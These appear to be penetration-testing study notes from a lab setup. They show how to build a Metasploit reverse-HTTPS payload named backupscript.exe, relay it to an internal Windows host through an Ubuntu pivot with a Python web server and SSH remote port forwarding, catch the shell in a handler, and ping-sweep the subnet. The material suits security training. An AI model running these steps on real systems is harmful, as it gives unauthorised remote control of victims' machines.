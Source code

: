 [[metasploit]]
# Example of getting reverse shell via pivot
attack host - 10.10.15.5
ubuntu        - 10.129.15.50, 172.16.5.129 (pivot host)
windows A  - 172.16.5.19                         (RDP host)
## Create payload
```bash
attacker$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
## Start multi handler (listener)
```msf
attacker$ msfconsole

msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```
## Upload payload
```bash
attacker$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

```bash
ubuntu$ python3 -m http.server 8123
```

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

```bash
attacker$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
Now execute payload on windows host and you'll get reverse shell in meterpreter.

## Discover hosts in network
```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```